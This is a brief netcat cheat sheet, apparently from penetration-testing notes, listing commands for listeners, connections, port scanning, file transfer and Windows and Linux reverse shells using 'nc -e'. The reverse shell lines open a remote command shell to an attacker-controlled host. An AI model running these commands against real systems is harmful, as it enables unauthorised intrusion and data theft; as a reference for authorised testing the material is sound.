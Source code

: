 ### source
https://github.com/diegocr/netcat  

### start listener
```
nc -lvp <lport>
```

### connect to given port using TCP, -v verbose, -n dont resolve
```
nc -nv <rhost> <rport>
```

### port scan, -z zero I/O mode, -w wait
```
nc -z -n -v -w1 <rhost> <rport>-<rport>
```

### Windows reverse shell
```
nc -nv <lhost> <lport> -e cmd.exe
```

### Linux reverse shell
```
nc -nv <lhost> <lport> -e /bin/sh
```

### send file (-N close connection after transfer done)
```
nc -N <lhost> <lport> < <file>
```

### receive file
```
nc -vlp <lport> > <file>
```

### receive file base64 encoded
```
nc -lnp <lport> | base64 -i -d > <file>
```

